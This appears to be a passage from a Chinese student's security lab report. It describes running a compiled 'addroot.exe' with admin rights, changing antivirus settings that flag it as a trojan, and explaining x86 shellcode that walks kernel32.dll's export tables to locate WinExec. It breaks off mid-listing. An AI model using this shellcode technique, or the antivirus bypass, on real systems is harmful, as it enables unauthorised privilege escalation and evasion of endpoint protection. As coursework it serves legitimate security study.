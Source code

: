     修改完成后再次执行：  
    ![](./img/q1*problem2.png)  
    按照报错信息，改用管理员权限执行exe文件（使用vs命令提示符进行编译链接）。  
    ![](./img/q1*problem2*2.png)  
    执行前：  
    ![](./img/q1*result3.png)  
    执行后：  
    ![](./img/q1*result3*2.png)  
    [在我的windows10上无法查看用户组信息怎么办](https://jingyan.baidu.com/article/f3ad7d0f55fd4309c3345bb5.html)  
    *在执行中，发现由于电脑安全设置，生成的addroot.exe经常被删除，且如果直接执行会弹窗报错此程序含有病毒或木马。此时需要将安全设置对该程序的操作进行更改。*  
    ![](./img/q1*problem3.png)  
* 对于这段代码：
    * 获取 ```kernel32.dll``` 的导出表地址，存储在 EBX 中
    ```c
    get_kernel32_export_table:
    mov ebx, [eax+0x3C] ; EBX = RVA NewEXEHeader
    add ebx, eax        ; EBX = &NewEXEHeader
    mov ebx, [ebx+0x78] ; EBX = RVA ExportTable
    add ebx, eax        ; EBX = &ExportTable
    ```
    * 根据导出表地址，获取导出名字表的地址，存储在 EDX 中
    ```c
    get_export_name_table:
    mov edx, [ebx+0x20] ; EDX = RVA ExportNameTable
    add edx, eax        ; EDX = &ExportNameTable
    ```
    * 根据导出表地址，获取导出序号列表的地址，并压入栈中
    ```c
    get_export_ordinal_table:
    mov ecx, [ebx+0x24] ; ECX = RVA ExportOrdinalTable
    add ecx, eax        ; ECX = &ExportOrdinalTable
    push ecx
    ```
    * 根据导出表地址，获取导出地址表的地址，并压入栈中
    ```c
    get_export_addr_table:
    mov edi, [ebx+0x1C] ; EDI = RVA ExportAddrTable
    add edi, eax        ; EDI = &ExportAddrTable
    push edi
    ```
    * 将`WinExec`函数名字符串压入栈中
    ```c
    WinExec_String:
    push 0x456E6957 ; EniW
    ```
    * 在导出名字表里查找`WinExec`函数名,找到后获取函数地址，并存储在 EBX 中
    ```c
    counter_init:
    xor eax, eax    ; EAX = Counter
